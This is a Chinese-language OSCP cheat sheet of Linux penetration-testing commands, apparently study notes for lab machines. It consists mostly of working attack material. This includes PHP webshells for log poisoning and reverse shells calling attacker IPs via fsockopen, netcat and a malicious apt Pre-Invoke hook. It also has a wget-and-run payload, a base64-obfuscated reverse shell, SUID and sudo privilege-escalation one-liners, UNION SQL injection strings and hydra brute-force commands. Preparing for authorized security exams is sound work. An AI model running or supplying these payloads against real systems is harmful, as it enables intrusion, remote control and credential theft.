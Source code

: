 # OSCP --- Linux
**目录扫描**
1. nikto
2. dirb
  a. dirb http:// IP or URL
  b. dirb http:// IP or URL -X .php,.txt -指定后缀名
3. dirbuster
4. robots.txt文件

**LFI**
1. ssh可访问日志: /var/log/auth.log。用ssh ‘<?php system($_GET[‘csd’]);?>’来上传一句话木马来反弹shell。
2. Nginx的可访问日志位置/var/log/nginx/access.log，用Burp上传一句话木马<?php system($_GET[‘cmd’]);?>
3. Apache access and error logs (/var/log/apache2/access.log and /var/log/apache2/error.log).

**反弹shell**
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
2. php-reverse-shell.php - 修改ip和port

**Wordpress:**
1. wpscan扫描插件 + searchsploit
2. Themes --> Editior --> 找个可以修改的php
3. Plugins -> Add New -> this page

**Drupal**
1. 安装php包(https://www.drupal.org/project/php)
2. 下载好后在Extend下安装PHP模板
3. 安装成功后激活模板
4. 创建php页面来反弹shell

**weevly（IMF靶机）**
1. weevly generate 1234 shell.php
2. weevly http://xxx.xxx.xxx.xxx/.../.../shell.php 1234

**PHPLiteAdmin**
1. 在test_db.php下创建一个数据库，然后再创建一个表格，上传php代码，即可被执行
2. 创建了一个csd的数据库，再在数据库下传教一个表格。然后在value下写入php代码。这里先采用了exp中的<?php phpinfo()?>进行尝试。写入成功后，用之前的文件包含漏洞访问csd.php(文件具体位置在数据库中可见)。
3. 先在kali机上进入/var/www/html目录，创建shell.txt文件。然后在shell.txt文件内写入<?php $sock=fsockopen("192.168.9.77",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
4. 修改Default Value，设置为<?php system("wget 192.168.9.77/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

**Symfony**
1. https://infosecwriteups.com/how-i-was-able-to-find-multiple-vulnerabilities-of-a-symfony-web-framework-web-application-2b82cd5de144
2. https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py

**哈希加密**
1. john工具：
  a. john --wordlist=xxx password.txt (指定字典)
  b. john password.txt --show
2. Crackstation：https://crackstation.net/
3. echo “xxxxx” | base64 -d
4. Argon2加密（Typo3）

**提权**
1. 查找suid
  a. find / -perm -u=s -type f 2>/dev/null
  b. find / -user root -perm -4000 -print 2>/dev/null
  c. find / -user root -perm -4000 -exec ls -ldb {} \
2. sudo权限
  a. sudo -l查看权限
  b. 查看相关sudo命令的用法
3. vim提权
  a. :set shell=/bin/bash
  b. :shell
4. nmap提权
  a. 交互式（有版本限制）
    1) --interactive进入交互式界面，
    2) !sh
  b. 利用脚本
    1) echo 'os.execute("/bin/sh")' > getShell
    2) sudo nmap --script=getShell
5. find提权
  a. find . -exec /bin/sh -p \; -quit
  b. find test -exec /bin/bash \;
6. gdb提权
  a. gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
7. 利用定时任务crontab来提权
  a. 找到系统中会被root定时执行的脚本
  b. echo "Payload" > 脚本
  c. Kali开启监听，等待root执行反弹shell
8. 环境变量提权（Escalate_Linux）
  a. 查看可用脚本
  b. cd /tmp
  c. 根据要求写文件（例如echo “nc - c /bin/bash ” > ls）
  d. chmod 777 ls
  e. export PATH=/tmp:$PATH
  f. 执行脚本
9. Python提权：
  a. python -c ‘import os; os.system(“/bin/sh”)’
10. zip提权：
  a. 进入tmp目录，创建一个exploit文件
  b. sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
11. 内核提权
  a. uname -a查看内核版本号
  b. searchsploit查找相关exp

**命令执行**
1. 绕过：
 a. 用单引号（例如c’a’t）
 b. echo + base64加密绕过：
 c. echo bmMgLWMgL2Jpbi9iYXNoIDE5Mi4xNjguOS43NyAxMjM0 |base64 -d | bash

**Web扫描**
1. joomla - joomscan
2. Wordiness - wpscan

**SQL注入**
1. sqlmap
  a. 一般模式：sqlmap - u “xxx” --dbs ---> sqlmap -u “xxx” -D x --tables ---> sqlmap -u “xxx” -D x -T x --columns ---> sqlmap -u “xxx” -D x -T x -C “x,y” --dump-all
  b. 带有session的：
      用Burp截包保存为本地文件（例如sql.txt）
      sqlmap -r sql.txt --dbs .... or sqlmap --cookie ID
2. 手工sql注入
  a. 用 ’ 或者 ’ 1=1 or(and) #(-- ) + ’ 1=2 or(and) #(-- )来判断是否有SQL注入
  b. unionselect语句
      1) Order by + 数字
      2) 若Order by 不成功则从1开始逐个尝试
      3) ' union select group_concat(schema_name),2,3,4,5,6 from information_schema.schemata#
      4) ' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="xxx"# - 数据库名
      5) ' union select group_concat(table_name),2,3,4,5,6 from xxx.tables where table_schema="yyy"# - 表名
      6) ' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name="zzz" - 表的内容
      7) ' union select group_concat(具体信息),2,3,4,5,6 from Staff.StaffDetails#

**爆破**
1. Burpsuite
2. rockyou.txt
3. cewl http://IP(URL) -w xxx.txt
4. hydra 
  hydra: hydra -L user.txt -P password.txt xxx.xxx.xxx.xxx(ip) ssh
  hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.0.36 http-post-form '/monitoring/index.php:username=^USER^&PASSWORD=^PASS^&Login=Login:Sign In'
5. 模糊测试爆破目录wfuzz（psl1靶机里出现）
  wfuzz -c -w wordlist --hc 404 --hl 6(过滤) http://IP
6. fcrackzip工具尝试爆破压缩包密码
7. stegcracker可以爆破图片信息
8. steghide -u -D -p /usr/share/wordlist/rockyou.txt <filename>爆破图片隐写

**信息搜集**
1. 网页：	
2. 关键字
3. 源码
4. js脚本
5. OS
6. /home/目录下
7. /var/www/下

**杂项**
1. gpg解密(靶机Bob)
2. 跳转域名没法解析：修改/etc/hosts
3. 交互式界面python -c 'import pty; pty.spawn("/bin/bash")' 
4. 端口敲击开放filtered - /etc/knockd.conf
    nc IP port
    Nmap -r -p ports IP 
5. 图片
    base64解密生成图片（Fristileaks靶机里出现）
    下载下来查看备用信息
6. getcap -r / 2>/dev/null查看可用的capability
7. ssh -i id_rsa user@IP（ssh带密钥登录）
8. string读取二进制文件
9. crunch生成字典（TommyBoy靶机）
10。 file code（w34kn3ss）查看文件运用语言
11. uncompyle2/6 - python反编译
12. 查找特殊权限getcap -r / 2>/dev/null
13. Flask = Python + Werkzeug
14. Gobuster vhost 扫描域名。
15. https://haxx.in/files/blasty-vs-pkexec.c
16. apt get crontab: payload - echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.114 1234 >/tmp/f"};' > shell and put it under /etc/apt/apt.conf.d

**Mysql**
1. update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin'; root用户修改密码。


















